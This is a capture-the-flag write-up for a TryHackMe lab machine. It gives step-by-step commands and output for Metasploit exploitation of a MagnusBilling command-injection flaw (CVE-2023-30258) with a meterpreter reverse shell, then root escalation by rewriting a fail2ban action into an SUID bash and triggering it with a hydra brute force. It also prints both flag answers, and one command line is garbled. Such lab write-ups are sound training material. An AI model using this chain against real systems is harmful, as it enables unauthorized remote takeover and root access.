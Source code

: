 
# Billing
https://tryhackme.com/room/billing

## Questions

> What is user.txt?  

> What is root.txt?  

This room involves using Metasploit.  

## 1. Enumerate Ports

```bash
└─$ nmap -A -sC -Pn 10.201.121.205
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-14 13:01 PDT
Nmap scan report for 10.201.121.205
Host is up (0.23s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
| ssh-hostkey: 
|   256 3c:17:9e:70:e0:9e:e1:e7:57:88:3f:57:61:25:9e:e0 (ECDSA)
|_  256 aa:d8:a4:7f:74:fc:46:40:c7:44:e7:cf:29:48:cd:5f (ED25519)
80/tcp   open  http    Apache httpd 2.4.62 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
|_http-server-header: Apache/2.4.62 (Debian)
| http-title:             MagnusBilling        
|_Requested resource was http://10.201.121.205/mbilling/
3306/tcp open  mysql   MariaDB 10.3.23 or earlier (unauthorized)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1025/tcp)
HOP RTT       ADDRESS
1   163.17 ms 10.23.0.1
2   ... 3
4   232.41 ms 10.201.121.205

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.95 seconds
```

> http://MACHINE_IP:80 redirects to a login page at http://MACHINE_IP/mbilling

## 2. Metasploit

We will be following [CVE-2023-30258](https://nvd.nist.gov/vuln/detail/CVE-2023-30258) to exploit a command injection vulnerability in 
MagnusBilling application versions 6.x and 7.x. We can use [Metasploit](https://www.rapid7.com/db/modules/exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258/) 
for this.

> `RHOST`: the remote target host address  

> `LHOST`: the listen address. __Important__ This may need to be set to your `tun0` IP address or similar, if you are connecting
> to your target over a VPN  

```bash
└─$ msfconsole -q
msf6 > use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > show options

Module options (exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: so
                                         cks5, socks5h, sapni, http, socks4
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/us
                                         ing-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /mbilling        yes       The MagnusBilling endpoint URL
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the loca
                                       l machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


   When TARGET is 0:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   WEBSHELL                   no        The name of the webshell with extension. Webshell name will be randomly generated if
                                         left unset.


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set RHOSTS MACHINE_IP
RHOSTS => MACHINE_IP
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set LHOST VPN_IP
LHOST => VPN_IP
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > run
```

## 3. Create a Shell

```bash
meterpreter > shell
Process 2578 created.
Channel 0 created.
id
uid=1001(asterisk) gid=1001(asterisk) groups=1001(asterisk)
SHELL=/bin/bash script -q /dev/null
$ export TERM=xterm
```

## 4. Find the User Flag

```bash
$ find / -name user.txt -exec cat {} \; -quit 2>/dev/null
THM{4a6831d5f124b25eefb1e92e0f0da4ca}
```

## 5. Escalate Privileges

> [Creating](https://www.revshells.com/) and [upgrading](https://0xffsec.com/handbook/shells/full-tty/) a reverse shell can help here.  

We always start with `sudo -l` when we get access to a user account.

```bash
$ sudo -l
sudo -l
Matching Defaults entries for asterisk on ip-10-201-121-205:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on ip-10-201-121-205:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

User `asterisk` can run `fail2ban-client` with sudo privileges.
We can [exploit](https://juggernaut-sec.com/fail2ban-lpe/) that.

```bash
$ ps -ef | grep -i fail2ban
ail2ban| grep -i fa
root         855       1  0 10:51 ?        00:00:05 /usr/bin/python3 /usr/bin/fail2ban-server -xf start
asterisk    3693    2709  0 12:14 pts/1    00:00:00 grep -i fail2ban
```

`fail2ban-server` is owned by root. Let's check `/etc/fail2ban` for the configuration file.

```bash
$ ls -l /etc/fail2ban
total 84
drwxr-xr-x 2 root root 12288 May 28 12:59 action.d
-rw-r--r-- 1 root root  3017 Nov  9  2022 fail2ban.conf
drwxr-xr-x 2 root root  4096 Jul 11  2021 fail2ban.d
drwxr-xr-x 3 root root 12288 May 28 12:59 filter.d
-rw-r--r-- 1 root root 25607 Nov  9  2022 jail.conf
drwxr-xr-x 2 root root  4096 May 28 12:59 jail.d
-rw-r--r-- 1 root root  1647 Mar 27  2024 jail.local
-rw-r--r-- 1 root root   645 Nov 23  2020 paths-arch.conf
-rw-r--r-- 1 root root  2728 Nov  9  2022 paths-common.conf
-rw-r--r-- 1 root root   627 Nov  9  2022 paths-debian.conf
-rw-r--r-- 1 root root   738 Nov 23  2020 paths-opensuse.conf
```

The key thing to note is that we can read everything.
User `asterisk` can also run all sudo commands with `fail2ban-client` meaning that
we should have permission to redirect to new configuration files and restart the service.
If we can get a writable configuration file, we have a working exploit.

```bash
$ cd /etc/fail2ban
$ grep -R actionban
...
action.d/iptables.conf:actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
...
```

This is the configuration file we want, but first we need to recursively copy the fail2ban directory
somewhere that we can write to.

```bash
$ cp -r /etc/fail2ban /tmp/fail2ban
```

Modify this line of `/tmp/fail2ban/action.d/iptables.conf`. 

```bash
#actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
actionban = cp /bin/bash /tmp/rootbash && chmod 4755 /tmp/rootbash 
```

Then restart the service pointing to our modified configuration.

```bash
sudo fail2ban-client -c /tmp/fail2ban/ -v restart
```

On the attacker run `hydra` and stop it with `Ctrl-C` after a few seconds.

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://10.201.121.205
```

On the target machine we should now see `rootbash`.

```bash
/tmp$ ls -l
total 1240
drwxr-xr-x 6 asterisk asterisk    4096 Aug 14 12:59 fail2ban
-rwsr-xr-x 1 root     root     1265648 Aug 14 13:13 rootbash
```

```bash
$ /tmp/rootbash -p
$ python3 -c 'import os;import pty;os.setuid(0);os.setgid(0);pty.spawn("/bin/bash");'etuid(0);os.setgid(0);pty.spawn("/bin/bash");'
$ id
uid=0(root) gid=0(root) groups=0(root),1001(asterisk)
```

## 5. Find the Root Flag

```bash
$ find / -name root.txt -exec cat {} \; -quit 2>/dev/null
THM{33ad5b530e71a172648f424ec23fae60}
```

## Sources

1. https://www.rapid7.com/db/modules/exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258/
2. https://juggernaut-sec.com/fail2ban-lpe/
